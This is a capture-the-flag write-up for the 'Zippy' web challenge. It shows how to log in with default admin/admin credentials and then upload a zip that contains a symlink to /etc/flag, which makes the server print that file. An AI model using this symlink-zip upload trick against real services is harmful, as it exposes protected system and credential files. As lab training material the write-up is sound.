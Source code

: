 # Zippy

> web

Author: [whitex](https://github.com/najeh-halawani)

Can You Break The Upload Zip Function, And Get The Flag?


## Writeup
## Recon

Checking source code, you'll get that the login creds are the same of admin.gif file, so login with ```admin/admin```

![login page](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Zippy/source%20code.png)

You'll be redirected to an upload zip file section....after understanding how the challenge work, u should know how to solve it.

![upload section](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Zippy/upload.png)

Okay, so the flag is in /etc/flag.. the challenge will unzip the zip file and cat * inside the upload dir... so let's make a symlink with flag path then make an archive of it :D 

```
ln -s /etc/flag flag

zip --symlinks flag.zip flag 

upload zip file ==> Got The Flag

```

```
Zip contents: cyberhack{#symlink_is_za_best}
```

![Getting the flag]()
